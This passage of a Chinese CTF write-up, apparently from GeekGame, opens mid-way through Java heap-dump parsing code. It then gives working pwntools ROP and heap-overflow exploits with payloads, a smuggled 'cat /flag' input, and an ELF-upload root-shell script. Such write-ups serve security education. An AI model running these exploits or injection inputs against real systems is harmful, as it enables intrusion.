                                            return readId(dis, identifierSize);
                                        } else {
                                            dis.skipBytes(getTypeSize(type));
                                        }
                                    }
                                } else {
                                    // Skip all static fields
                                    for (int i = 0; i < staticFieldCount; i++) {
                                        dis.skipBytes(identifierSize);
                                        byte type = dis.readByte();
                                        dis.skipBytes(getTypeSize(type));
                                    }
                                }
                                
                                // Skip instance fields
                                short instanceFieldCount = dis.readShort();
                                dis.skipBytes(instanceFieldCount * (identifierSize + 1));
                            } else {
                                skipHeapDumpSubRecord(dis, subtag, identifierSize);
                            }
                        }
                        break;
                        
                    default:
                        dis.skipBytes(length);
                }
            }
        }
        return null;
    }
    
    private static long readId(DataInputStream dis, int idSize) throws IOException {
        if (idSize == 4) {
            return dis.readInt() & 0xFFFFFFFFL;
        } else {
            return dis.readLong();
        }
    }
    
    private static int getTypeSize(byte type) {
        switch (type) {
            case 2: return 8; // object
            case 8: case 6: return 8; // long, double
            case 4: case 7: case 9: case 10: case 5: return 4; // boolean, float, int, short, char
            case 1: return 1; // byte
            default: return 0;
        }
    }
    
    private static void skipHeapDumpSubRecord(DataInputStream dis, byte subtag, int idSize) throws IOException {
        switch (subtag) {
            case 0x01: // ROOT_JNI_GLOBAL
            case 0x03: // ROOT_JNI_LOCAL
            case 0x05: // ROOT_JAVA_FRAME
                dis.skipBytes(idSize + 4);
                break;
            case 0x02: // ROOT_JNI_LOCAL
                dis.skipBytes(idSize + 8);
                break;
            case 0x04: // ROOT_NATIVE_STACK
            case 0x06: // ROOT_STICKY_CLASS
            case 0x0A: // ROOT_JNI_MONITOR
                dis.skipBytes(idSize + 4);
                break;
            case 0x07: // ROOT_THREAD_BLOCK
            case 0x08: // ROOT_MONITOR_USED
                dis.skipBytes(idSize);
                break;
            case 0x09: // ROOT_THREAD_OBJECT
                dis.skipBytes(idSize + 4 + 4);
                break;
            case 0x21: // INSTANCE_DUMP
                dis.skipBytes(idSize); // object ID
                dis.skipBytes(4); // stack trace serial
                dis.skipBytes(idSize); // class ID
                int contentSize = dis.readInt();
                dis.skipBytes(contentSize);
                break;
            case 0x22: // OBJECT_ARRAY_DUMP
                dis.skipBytes(idSize); // array ID
                dis.skipBytes(4); // stack trace serial
                int elements = dis.readInt();
                dis.skipBytes(idSize); // element class ID
                dis.skipBytes(elements * idSize);
                break;
            case 0x23: // PRIMITIVE_ARRAY_DUMP
                dis.skipBytes(idSize); // array ID
                dis.skipBytes(4); // stack trace serial
                elements = dis.readInt();
                byte elementType = dis.readByte();
                dis.skipBytes(elements * getTypeSize(elementType));
                break;
        }
    }
}
```

# 很遗憾，由于临近DDL，下面的内容将被简化

## RPGGame binary-RPGGame

### CLI

flag1的漏洞非常明显，代码中直接就有要求输入payload的提示:
```c
int sub_40129A()
{
  char buf[64]; // [rsp+0h] [rbp-B0h] BYREF
  char nptr[64]; // [rsp+40h] [rbp-70h] BYREF
  _BYTE ptr[24]; // [rsp+80h] [rbp-30h] BYREF
  int nbytes; // [rsp+98h] [rbp-18h]
  int nbytes_4; // [rsp+9Ch] [rbp-14h]
  FILE *stream; // [rsp+A0h] [rbp-10h]
  int i; // [rsp+ACh] [rbp-4h]

  stream = fopen("/dev/urandom", "r");
  if ( !stream )
    return puts("Failed to open /dev/urandom");
  fread(ptr, 1u, 0x10u, stream);
  fclose(stream);
  while ( 1 )
  {
    puts("Please login to the Game World!!!");
    puts(">");
    read(0, buf, 0x40u);
    puts("Please input your password:");
    puts(">");
    nbytes_4 = read(0, nptr, 0x10u);
    if ( strncmp(buf, "designer", 8u) )
      break;
    for ( i = 0; i < nbytes_4; ++i )
    {
      if ( nptr[i] != ptr[i] )
      {
        puts("Wrong Password!");
        break;
      }
    }
    if ( i == 16 )
    {
      puts("Welcome to the RPG game!");
      puts("Please input the size of your payload:");
      puts(">");
      read(0, nptr, 0x10u);
      nbytes = atoi(nptr);
      if ( nbytes <= 63 )
      {
        memset(nptr, 0, sizeof(nptr));
        puts("Please input your payload:");
        puts(">");
        read(0, nptr, (unsigned int)nbytes);
        return puts("Bye!");
      }
      puts("Size too large!");
    }
    else
    {
      puts("Password Invalid!");
    }
  }
  puts("Welcome to the RPG game!");
  return puts("Enjoy yourself!");
}
```
只需要获取到密码即可。很容易发现，在程序判断密码是否正确的过程中，只有在出现`nptr[i] != ptr[i]`的时候才会输出"Wrong Password!"，如果只是长度不相等而输入的部分与密码一致，则只会输出"Password Invalid!"。也就是说，我们可以通过是否返回"Wrong Password!"来逐位枚举密码。

在获取到密码之后，即可输入payload.容易发现，这里对于size的判断是有符号比较，因此只要size为负数就可以触发常见的缓冲区溢出错误，从而实现ROP。因此接下来就是设计ROP chain了。

由于flag1的程序不是PIE，因此我们可以直接使用RPGGame2程序内的gadget。但是由于这里的gadget过少（事实上基本只有一个pop rax是可用的），因此需要获取libc地址来使用更多的gadget.总之只要把rax设置为.got里面指向某一个libc函数的地址，然后跳到要求输入payload的地方的某一个puts就行了(因为puts前面有`mov rdi, rax`)，然后根据输出的地址，输入二阶段payload。

注意由于此时rbp已被篡改，而RPGGame2编译时使用了rbp作为frame pointer，所以二阶段payload的位置是需要我们手动设置的，把它放到image后面的heap就行了。注意不能和image靠得太近，否则栈跑到read only区域就废了。

还有就是我刚开始把要传的字符串（文件路径，或者是shell命令）放到了payload开头，导致执行libc函数的时候栈把字符串覆盖了，调了半天都没发现。

总之代码如下:
```python
from pwn import *
from pwnlib.util.packing import u64, p64

# Configuration
REMOTE_HOST = "prob16.geekgame.pku.edu.cn"
REMOTE_PORT = 10016
USER_TOKEN = ""

context.arch = 'amd64'

def connect():
    """Connect to the remote server"""
    conn = remote(REMOTE_HOST, REMOTE_PORT)
    conn.sendline(USER_TOKEN.encode())
    return conn
    # return gdb.debug("./binary-RPGGame/CLI/RPGGame2")

def brute_force_byte(conn, known_password, byte_position):
    """Brute force a single byte of the password"""
    for byte_val in range(256):
        conn.recvuntil(b">")
        conn.sendline(b"designer")
        
        conn.recvuntil(b">")
        
        test_password = known_password + bytes([byte_val])
        conn.send(test_password)
        
        response = conn.recvuntil([b"Wrong Password!", b"Password Invalid!", b"Welcome"], timeout=2)
        
        if b"Wrong Password!" not in response:
            log.success(f"Found byte {byte_position}: {hex(byte_val)}")
            return byte_val
    
    return None

def retrieve_password(conn):
    """Retrieve the full 16-byte password"""
    known_password = b""
    
    for i in range(16):
        log.info(f"Brute forcing byte {i + 1}/16...")
        byte_val = brute_force_byte(conn, known_password, i)
        
        if byte_val is None:
            log.error(f"Failed to find byte {i}")
            return None
        
        known_password += bytes([byte_val])
        log.info(f"Current password: {known_password.hex()}")
    
    log.success(f"Full password retrieved: {known_password.hex()}")
    return known_password

def stage1_leak(conn):
    """Stage 1: Leak setvbuf address (already logged in from password brute force)"""
    log.info("Stage 1: Leaking setvbuf address...")
    
    # Already logged in after successful password brute force
    # Wait for size prompt
    conn.recvuntil(b"Please input the size of your payload:")
    conn.recvuntil(b">")
    conn.sendline(b"-1")
    
    # Wait for payload prompt
    conn.recvuntil(b"Please input your payload:")
    conn.recvuntil(b">")
    
    # Upload payload1.bin
    with open("payload1.bin", "rb") as f:
        payload1 = f.read()
    conn.send(payload1)
    
    # Receive "Bye!" and then leaked address
    conn.recvuntil(b"Bye!\n")
    leaked_bytes = conn.recv(6)  # Receive 6 bytes for address
    setvbuf_addr = u64(leaked_bytes.ljust(8, b'\x00'))
    log.success(f"Leaked setvbuf address: {hex(setvbuf_addr)}")
    
    return setvbuf_addr

def stage2_exploit(conn, setvbuf_addr):
    """Stage 2: Exploit with system (no login needed, jumps to middle of main)"""
    log.info("Stage 2: Exploiting with system...")

    base_addr = setvbuf_addr - 0x88550
    
    # Calculate target addresses
    addr1 = base_addr + 0x2A873  # write to 0x78, 0xB8, 0xF8, 0x190
    addr2 = base_addr + 0x2A871  # write to 0x90, 0x118, 0x140, 0x168
    addr4 = base_addr + 0x5F34E  # write to 0xD0, 0x110
    addr5 = base_addr + 0xBF460  # write to 0x138
    addr6 = base_addr + 0xBF450  # write to 0x160
    addr7 = base_addr + 0x85E60  # write to 0xB0
    addr8 = base_addr + 0x86400  # write to 0x188
    addr9 = base_addr + 0x87BE0  # write to 0x1A8

    log.info(f"Base address: {hex(base_addr)}")
    log.info(f"Address 1 (base + 0x2A873 -> 0x78, 0xB8, 0xF8, 0x190): {hex(addr1)}")
    log.info(f"Address 2 (base + 0x2A871 -> 0x90, 0x118, 0x140, 0x168): {hex(addr2)}")
    log.info(f"Address 4 (base + 0x5F34E -> 0xD0, 0x110): {hex(addr4)}")
    log.info(f"Address 5 (base + 0xBF460 -> 0x138): {hex(addr5)}")
    log.info(f"Address 6 (base + 0xBF450 -> 0x160): {hex(addr6)}")
    log.info(f"Address 7 (base + 0x85E60 -> 0xB0): {hex(addr7)}")
    log.info(f"Address 8 (base + 0x86400 -> 0x188): {hex(addr8)}")
    log.info(f"Address 9 (base + 0x87BE0 -> 0x1A8): {hex(addr9)}")
    
    # Read payload2.bin and modify it
    with open("payload2.bin", "rb") as f:
        payload2 = bytearray(f.read())
    
    # Write addresses to specified offsets
    payload2[0x78:0x78+8] = p64(addr1)
    payload2[0xB8:0xB8+8] = p64(addr1)
    payload2[0xF8:0xF8+8] = p64(addr1)
    payload2[0x190:0x190+8] = p64(addr1)
    
    payload2[0x90:0x90+8] = p64(addr2)
    payload2[0x118:0x118+8] = p64(addr2)
    payload2[0x140:0x140+8] = p64(addr2)
    payload2[0x168:0x168+8] = p64(addr2)
    
    payload2[0xD0:0xD0+8] = p64(addr4)
    payload2[0x110:0x110+8] = p64(addr4)
    
    payload2[0x138:0x138+8] = p64(addr5)
    
    payload2[0x160:0x160+8] = p64(addr6)
    
    payload2[0xB0:0xB0+8] = p64(addr7)
    
    payload2[0x188:0x188+8] = p64(addr8)
    
    payload2[0x1A8:0x1A8+8] = p64(addr9)

    # Write modified payload back
    with open("payload2.bin", "wb") as f:
        f.write(payload2)
    
    log.info("Modified payload2.bin with calculated addresses")
    
    # Send size -1 at beginning of stage2 and wait for payload prompt
    conn.sendline(b"-1")
    conn.recvuntil(b"Please input your payload:")
    conn.recvuntil(b">")
    
    # Upload modified payload2.bin
    conn.send(bytes(payload2))
    
    # Removed waiting for "Bye!" per request
    log.info("Payload2 sent, switching to interactive to capture output")
    conn.interactive()

if __name__ == "__main__":
    conn = connect()
    
    # Retrieve password (ends with successful login)
    log.info("Starting password retrieval...")
    password = retrieve_password(conn)
    
    if not password:
        log.error("Failed to retrieve password")
        conn.close()
        exit(1)
    
    # Stage 1: Leak (already logged in from password brute force)
    setvbuf_addr = stage1_leak(conn)
    
    # Stage 2: Exploit (no login, jumps to middle of main)
    stage2_exploit(conn, setvbuf_addr)
    
    conn.close()

```
payload1:
```
00000000 00 00 00 00:00 00 00 00|00 00 00 00:00 00 00 00
00000010 00 00 00 00:00 00 00 00|00 00 00 00:00 00 00 00
00000020 00 00 00 00:00 00 00 00|00 00 00 00:00 00 00 00
00000030 00 00 00 00:00 00 00 00|00 00 00 00:00 00 00 00
00000040 00 00 00 00:00 00 00 00|00 00 00 00:00 00 00 00
00000050 00 00 00 00:00 00 00 00|00 00 00 00:00 00 00 00
00000060 00 00 00 00:00 00 00 00|00 00 00 00:00 00 00 00
00000070 00 00 00 00:00 00 00 00|7A 12 40 00:00 00 00 00
00000080 50 48 40 00:00 00 00 00|A8 11 40 00:00 00 00 00
00000090 30 40 40 00:00 00 00 00|12 14 40 00:00 00 00 00
```
payload2:
```
00000000 00 00 00 00:00 00 00 00|00 00 00 00:00 00 00 00
00000010 00 00 00 00:00 00 00 00|00 00 00 00:00 00 00 00
00000020 00 00 00 00:00 00 00 00|00 00 00 00:00 00 00 00
00000030 00 00 00 00:00 00 00 00|00 00 00 00:00 00 00 00
00000040 00 00 00 00:00 00 00 00|00 00 00 00:00 00 00 00
00000050 00 00 00 00:00 00 00 00|00 00 00 00:00 00 00 00
00000060 00 00 00 00:00 00 00 00|00 00 00 00:00 00 00 00
00000070 00 00 00 00:00 00 00 00|73 F8 8D 59:46 7E 00 00
00000080 90 49 40 00:00 00 00 00|00 00 00 00:00 00 00 00
00000090 71 F8 8D 59:46 7E 00 00|08 20 40 00:00 00 00 00
000000A0 00 00 00 00:00 00 00 00|00 00 00 00:00 00 00 00
000000B0 60 AE 93 59:46 7E 00 00|73 F8 8D 59:46 7E 00 00
000000C0 08 41 40 00:00 00 00 00|00 00 00 00:00 00 00 00
000000D0 4E 43 91 59:46 7E 00 00|7A 12 40 00:00 00 00 00
000000E0 00 00 00 00:00 00 00 00|A8 11 40 00:00 00 00 00
000000F0 30 00 00 00:00 00 00 00|73 F8 8D 59:46 7E 00 00
00000100 00 41 40 00:00 00 00 00|00 00 00 00:00 00 00 00
00000110 4E 43 91 59:46 7E 00 00|71 F8 8D 59:46 7E 00 00
00000120 08 41 40 00:00 00 00 00|00 00 00 00:00 00 00 00
00000130 00 00 00 00:00 00 00 00|60 44 97 59:46 7E 00 00
00000140 71 F8 8D 59:46 7E 00 00|00 41 40 00:00 00 00 00
00000150 00 00 00 00:00 00 00 00|00 00 00 00:00 00 00 00
00000160 50 44 97 59:46 7E 00 00|71 F8 8D 59:46 7E 00 00
00000170 01 00 00 00:00 00 00 00|00 00 00 00:00 00 00 00
00000180 00 00 00 00:00 00 00 00|00 B4 93 59:46 7E 00 00
00000190 73 F8 8D 59:46 7E 00 00|00 41 40 00:00 00 00 00
000001A0 00 00 00 00:00 00 00 00|E0 CB 93 59:46 7E 00 00
000001B0 66 6C 61 67:00 00 00 00

```

### TUI

这个的漏洞就很不明显了，虽然我最开始注意到了堆会溢出，但是我忘了每个进程的堆是独立的，还以为堆里面分配的地址是不可控的。提示出来之后才反应过来一个进程的堆是私有的，每个malloc块在堆里面的位置是确定的。

总之无论如何都要先获取到有效的地址，不然改函数指针也没法改。注意到无论是process_input_command函数，pet_rename函数还是handle_tab函数都是使用的memcpy，因此我们可以利用这些指令来拼接内存。

以下是完整代码（使用时需要依次执行需要的代码块，然后手动计算地址）
```python
import subprocess
import os
import time

def tmux_send_bytes( data: bytes, bufname='injbuf'):
    p = subprocess.Popen(['tmux', 'load-buffer', '-b', bufname, '-'], stdin=subprocess.PIPE)
    p.communicate(data)
    subprocess.run(['tmux', 'paste-buffer', '-t', 'rpg:0.0', '-b', bufname], check=True)

log_file = '/home/xyzst/source/temp/binary-RPGGame/TUI/log'

def tmux_read_bytes() -> bytes:
    global size
    new_size = os.path.getsize(log_file)
    with open(log_file, 'rb') as f:
        f.seek(size)
        data = f.read(new_size - size)
    size = new_size
    return data

# tmux_send_bytes(b'catch\n')
# for i in range(4):
#     tmux_send_bytes(b'move right\n')
#     tmux_send_bytes(b'catch\n')
# tmux_send_bytes(b'pet release 1\n')
# for j in range(5):
#     tmux_send_bytes(b'pet free id 1\n')
# for i in range(100):
#     for j in range(5):
#         tmux_send_bytes(b'move right\n')
#         tmux_send_bytes(b'catch\n')
#     tmux_send_bytes(b'pet release 1\n')
#     for j in range(5):
#         tmux_send_bytes(b'pet free id 1\n')
# for i in range(5):
#     tmux_send_bytes(b'move right\n')
#     tmux_send_bytes(b'catch\n')
# tmux_send_bytes(b'pet rename ' + b'0'*126 + b'1' + b'0'*357 + b' aa\n')
# tmux_send_bytes(b'pet rename ' + b'0'*126 + b'2' + b'0'*293 + b' bb\n')
# tmux_send_bytes(b'pet rename 3 ' + b'c'*120 + b'\n')
# tmux_send_bytes(b'pet free name cc\tname cc\tname cc\tname bb\t')
# tmux_send_bytes(b'\x08'*395)
# tmux_send_bytes(b'pet rename 3 ' + b'c'*68 + b'\n')
# tmux_send_bytes(b'pet free name cc\tname cc\tname cc\tname cc\tname cc\tname aa\t')
# tmux_send_bytes(b'\x08'*387)
# tmux_send_bytes(b'pet rename ' + b'0'*126 + b'1' + b'0'*254 + b' aa\n')
# tmux_send_bytes(b'pet rename 3 ' + b'c'*92 + b'\n')
# tmux_send_bytes(b'pet rename 4 ' + b'd'*93 + b'\n')
# tmux_send_bytes(b'pet free name cc\tname cc\tname cc\tname cc\tname dd\tname aa\t')
# tmux_send_bytes(b'\x08'*508)

# invalid_bytes = [0x3, 0x8, 0x9, 0xa, 0xd, 0x11, 0x13, 0x1a, 0x1c, 0x7f]
# addr = []
# size = os.path.getsize(log_file)
# for i in range(0, 6):
#     # brute force the address byte by byte
#     for b in range(1, 256):
#         if b in invalid_bytes:
#             continue
#         tmux_send_bytes(b'move ' + bytes(addr) + bytes([b]) + b'\t\n')
#         time.sleep(0.01)
#         rsp = tmux_read_bytes()
#         print(f'Trying byte {i}: {b:02x}, response: {rsp}')
#         if b'direction' in rsp:
#             addr.append(b)
#             print(f'Found byte {i}: {b:02x}')
#             break

# print('Leaked address:', bytes(addr)[::-1].hex())

image_base = 0x645231576000

# tmux_send_bytes(b'pet rename 1 aa' + b'\x00'*118 + (image_base + 0xCE88).to_bytes(8, byteorder='little') + b'\n')
# tmux_send_bytes(b'pet rename ' + b'0'*126 + b'2' + b'0'*357 + b' bb\n')
# tmux_send_bytes(b'pet rename 3 ' + b'c'*120 + b'\n')
# tmux_send_bytes(b'pet free name cc\tname cc\tname cc\tname aa\t')
# tmux_send_bytes(b'\x08'*395)
# tmux_send_bytes(b'pet rename 3 ' + b'c'*68 + b'\n')
# tmux_send_bytes(b'pet free name cc\tname cc\tname cc\tname cc\tname cc\tname bb\t')
# tmux_send_bytes(b'\x08'*387)
# tmux_send_bytes(b'pet rename ' + b'0'*126 + b'1' + b'0'*254 + b' aa\n')
# tmux_send_bytes(b'pet rename 3 ' + b'c'*92 + b'\n')
# tmux_send_bytes(b'pet rename 4 ' + b'd'*93 + b'\n')
# tmux_send_bytes(b'pet free name cc\tname cc\tname cc\tname cc\tname dd\tname aa\t')
# tmux_send_bytes(b'\x08'*508)

libc_base = 0x77BB97B64000

# tmux_send_bytes(b'pet rename 1 aa' + b'\x00'*118 + (image_base + 0x133C8).to_bytes(8, byteorder='little') + b'\n')
# tmux_send_bytes(b'pet rename ' + b'0'*126 + b'2' + b'0'*357 + b' bb\n')
# tmux_send_bytes(b'pet rename 3 ' + b'c'*120 + b'\n')
# tmux_send_bytes(b'pet free name cc\tname cc\tname cc\tname aa\t')
# tmux_send_bytes(b'\x08'*395)
# tmux_send_bytes(b'pet rename 3 ' + b'c'*68 + b'\n')
# tmux_send_bytes(b'pet free name cc\tname cc\tname cc\tname cc\tname cc\tname bb\t')
# tmux_send_bytes(b'\x08'*387)
# tmux_send_bytes(b'pet rename ' + b'0'*126 + b'1' + b'0'*254 + b' aa\n')
# tmux_send_bytes(b'pet rename 3 ' + b'c'*92 + b'\n')
# tmux_send_bytes(b'pet rename 4 ' + b'd'*93 + b'\n')
# tmux_send_bytes(b'pet free name cc\tname cc\tname cc\tname cc\tname dd\tname aa\t')
# tmux_send_bytes(b'\x08'*508)

input_line = 0x645268F69140

# tmux_send_bytes(b'pet rename 1 aa' + b'\x00'*110 + (libc_base + 0x58750).to_bytes(8, byteorder='little') + (input_line + 5).to_bytes(8, byteorder='little') + b'\n')
# tmux_send_bytes(b'pet rename ' + b'0'*126 + b'2' + b'0'*309 + b' bb\n')
# tmux_send_bytes(b'pet rename 3 ' + b'c'*120 + b'\n')
# tmux_send_bytes(b'pet rename 4 dd\n')
# tmux_send_bytes(b'pet free name cc\tname cc\tname cc\tname dd name aa\t')
# tmux_send_bytes(b'\x08'*403)
# tmux_send_bytes(b'pet rename 3 ' + b'c'*68 + b'\n')
# tmux_send_bytes(b'pet free name cc\tname cc\tname cc\tname cc\tname cc\tname bb\t')
# tmux_send_bytes(b'\x08'*387)
# tmux_send_bytes(b'pet rename ' + b'0'*126 + b'1' + b'0'*262 + b' aa\n')
# tmux_send_bytes(b'pet rename 3 ' + b'c'*92 + b'\n')
# tmux_send_bytes(b'pet rename 4 ' + b'd'*53 + b'\n')
# tmux_send_bytes(b'pet free name cc\tname cc\tname cc\tname cc\tname dd\tname aa\t')
# tmux_send_bytes(b'\x08'*468)
tmux_send_bytes(b'move\x00cat /flag\n')
```
这是用来刷分的代码:
```python
tmux_send_bytes(b'catch\n')
for i in range(4):
    tmux_send_bytes(b'move right\n')
    tmux_send_bytes(b'catch\n')
tmux_send_bytes(b'pet release 1\n')
for j in range(5):
    tmux_send_bytes(b'pet free id 1\n')
for i in range(100):
    for j in range(5):
        tmux_send_bytes(b'move right\n')
        tmux_send_bytes(b'catch\n')
    tmux_send_bytes(b'pet release 1\n')
    for j in range(5):
        tmux_send_bytes(b'pet free id 1\n')
for i in range(5):
    tmux_send_bytes(b'move right\n')
    tmux_send_bytes(b'catch\n')
```

这是用来把map_command_tree->alternate的值拼接到keyword_up->pname的代码:
```python
tmux_send_bytes(b'pet rename ' + b'0'*126 + b'1' + b'0'*357 + b' aa\n')
tmux_send_bytes(b'pet rename ' + b'0'*126 + b'2' + b'0'*293 + b' bb\n')
tmux_send_bytes(b'pet rename 3 ' + b'c'*120 + b'\n')
tmux_send_bytes(b'pet free name cc\tname cc\tname cc\tname bb\t')
tmux_send_bytes(b'\x08'*395)
tmux_send_bytes(b'pet rename 3 ' + b'c'*68 + b'\n')
tmux_send_bytes(b'pet free name cc\tname cc\tname cc\tname cc\tname cc\tname aa\t')
tmux_send_bytes(b'\x08'*387)
tmux_send_bytes(b'pet rename ' + b'0'*126 + b'1' + b'0'*254 + b' aa\n')
tmux_send_bytes(b'pet rename 3 ' + b'c'*92 + b'\n')
tmux_send_bytes(b'pet rename 4 ' + b'd'*93 + b'\n')
tmux_send_bytes(b'pet free name cc\tname cc\tname cc\tname cc\tname dd\tname aa\t')
tmux_send_bytes(b'\x08'*508)
```
可以看到`pet rename`命令里面有一个巨长的数字，这是利用了tokenize时只截取前127个字符设计的用来使命令长度超级加倍从而实现捕获到input_line外数据的方式，也就是说00000...000100000...000会被截取为000...0001然后用atoi识别成有效的序号。

总之就是用pet rename把想要的数据复制到pet name里面，然后利用自动补全把需要的数据放到input_line外面（以避免执行命令之后清空input_line时把数据抹掉），然后再利用自动补全把要拼接的内容放在input_line的末尾，然后pet rename把拼接后的数据读到pet name里面，然后最后利用自动补全把拼接完成的数据覆盖到input_line外面的目标地址。

注: 堆结构:
0 input_line
0x200 malloc gap(block header, block footer or whatever)
0x210 map_command_tree
0x230 malloc gap
0x240 node_move
0x260 malloc gap
0x270 keyword_up

通过把map_command_tree->alternate（也就是&node_move）拼到keyword_up->pname（顺带把mini_match设为0），就可以利用自动补全来逐位枚举出地址了！如果输入的内容正确，tab之后地址被补全，命令执行之后就会输出Invalid direction for move，否则是Invalid command.

总之可以获取到image base，然后类似地通过.got中的地址获取libc base，通过map_command_tree获取input_line地址，最后将node_move->pfn和node_move->argument一并覆盖为system函数和指向input_line中cat /flag字符串的地址就行了。

## 传统 C 语言核易危 binary-safekernel

patch太长了懒得看（）

总之提示出来之后flag1就简单了，直接写一个用正常方式读/flag1.txt的elf文件扔过去，然后`chmod +sx`, `chgrp 0`再执行就行了。

上传的代码如下:
```python
#!/usr/bin/env python3
import sys
import tty
import termios
import select
import re
from pwn import *

def remote_interactive_raw(r):
    """
    Raw terminal mode for remote shells with CPR filtering
    Best for full interactive shells with control characters
    """
    old_settings = termios.tcgetattr(sys.stdin)
    
    log.info("Entering raw interactive mode (Ctrl+D to exit)")
    
    # Pattern to filter out Cursor Position Report and related escape sequences
    cpr_pattern = re.compile(rb'\x1b\[\d+;\d+R')
    dsr_pattern = re.compile(rb'\x1b\[6n')
    
    def filter_data(data):
        """Remove CPR and DSR queries from received data"""
        data = cpr_pattern.sub(b'', data)
        data = dsr_pattern.sub(b'', data)
        return data
    
    try:
        # Set stdin to raw mode
        tty.setraw(sys.stdin.fileno())
        
        while True:
            readable, _, _ = select.select([sys.stdin, r.sock], [], [], 0.01)
            
            # Data from remote
            if r.sock in readable:
                try:
                    data = r.recv(timeout=0.01)
                    if data:
                        # Filter out escape sequences before output
                        cleaned = filter_data(data)
                        if cleaned:
                            sys.stdout.buffer.write(cleaned)
                            sys.stdout.buffer.flush()
                    else:
                        break
                except EOFError:
                    break
                except:
                    pass
            
            # User input
            if sys.stdin in readable:
                char = sys.stdin.buffer.read(1)
                if not char or char == b'\x04':  # EOF or Ctrl+D
                    break
                r.send(char)
                
    except KeyboardInterrupt:
        pass
    finally:
        # Restore terminal
        termios.tcsetattr(sys.stdin, termios.TCSADRAIN, old_settings)
        log.info("\nExited interactive mode")
        print()  # New line for clean exit

# Usage: python3 transfer.py <host> <port> <token> <flag_choice> <path_to_elf>
# Example: python3 transfer.py example.com 1337 mytoken123 1 ./test
# - <token>: User token string
# - <flag_choice>: 1 or 2
# Uses echo -ne with \xHH escapes instead of base64 (no base64 dependency).

if len(sys.argv) != 6:
    log.error("Usage: %s <host> <port> <token> <flag_choice> <elf_path>", sys.argv[0])
    sys.exit(1)

host = sys.argv[1]
port = int(sys.argv[2])
token = sys.argv[3]
flag_choice = sys.argv[4]  # '1' or '2'
elf_path = sys.argv[5]

# Read the ELF
try:
    with open(elf_path, 'rb') as f:
        elf_data = f.read()
    log.info(f"ELF file: {len(elf_data)} bytes")
except FileNotFoundError:
    log.error(f"ELF file not found: {elf_path}")
    sys.exit(1)

def escape_byte(byte):
    """Escape a single byte for echo -ne."""
    if byte == 0x5c:  # Backslash
        return r'\x5c'
    elif byte == 0x27:  # Single quote
        return r"\x27"
    else:
        return f"\\x{byte:02x}"

# Generate escaped chunks (128 bytes each)
CHUNK_SIZE = 128
chunks = [elf_data[i:i + CHUNK_SIZE] for i in range(0, len(elf_data), CHUNK_SIZE)]
escaped_chunks = [''.join(escape_byte(b) for b in chunk) for chunk in chunks]
log.info(f"Generated {len(escaped_chunks)} escaped chunks")

# Connect to remote
r = remote(host, port)

# Step 1: Send user token
log.info("Sending user token...")
r.sendline(token.encode())
r.recvuntil(b'Flag (1/2):')  # Wait for flag choice prompt

# Step 2: Send flag selection
log.info(f"Sending flag choice: {flag_choice}")
r.sendline(flag_choice.encode())

# Step 3: Wait for shell prompt
log.info("Waiting for shell prompt...")
r.recvuntil(b'$ ')

# # Step 4: Setup file
log.info("Setting up /tmp/test...")
setup_cmd = ": > /tmp/test\n"
r.sendline(setup_cmd.encode())
r.recvuntil(b'$ ')
r.recvuntil(b'$ ')

# # Step 5: Send echo commands for each chunk
log.info("Uploading ELF via escaped echo -ne...")
for i, escaped in enumerate(escaped_chunks):
    echo_cmd = f"echo -ne '{escaped}' >> /tmp/test\n"
    r.sendline(echo_cmd.encode())
    r.recvuntil(b'$ ')
    r.recvuntil(b'$ ')
    if (i + 1) % 10 == 0:  # Progress every 10 chunks
        log.info(f"Uploaded {i+1}/{len(escaped_chunks)} chunks")

# # Step 6: Make executable
# chmod_cmd = "chmod +x /tmp/test\n"
# r.sendline(chmod_cmd.encode())
# r.recvuntil(b'$ ')

# # Step 7: Run the exploit
# log.info("Running exploit...")
# run_cmd = "/tmp/test\n"
# r.sendline(run_cmd.encode())

# Step 8: Interactive root shell
remote_interactive_raw(r)

# For automation (uncomment):
# r.recvuntil(b'# ')  # Root prompt
# flag_file = '/flag1.txt' if flag_choice == '1' else '/flag2.txt'
# r.sendline(f"cat {flag_file}\n".encode())
# flag = r.recvline().decode().strip()
# log.success(f"Flag: {flag}")
# r.sendline(b"exit\n")
# r.close()
```
应该是[这里](https://grok.com/share/bGVnYWN5_68c44827-b2d2-48f2-926a-38b47de0b9b7)生成的。

## 股票之神 algo-market

纯手操，先来两个Truth-，然后抄底梭哈，买入条拉到一半，买价-1%，限10tick，然后狂点买入，直到涨到$90，然后10x，一直到不再涨为止，大概能涨到$200+，然后中间价全部卖出，如果钱还是不够就再来一次（这次不梭哈，买总资产的一半）

## 千年讲堂的方形轮子 II algo-oracle2

只做了flag1，通过name创建一个开头是true后面全是空格的block，然后再控制name长度，把其余需要的block都给构造出来就行了。

最后第一个block是`"stuid":1234567890,"name":"aaa...aa","flag":`, 第二个block是`true         `（后面全是空格）, 第三个block是`,"timestamp":...`

把需要的block的密文都获取到之后，直接拼在一块就行了。
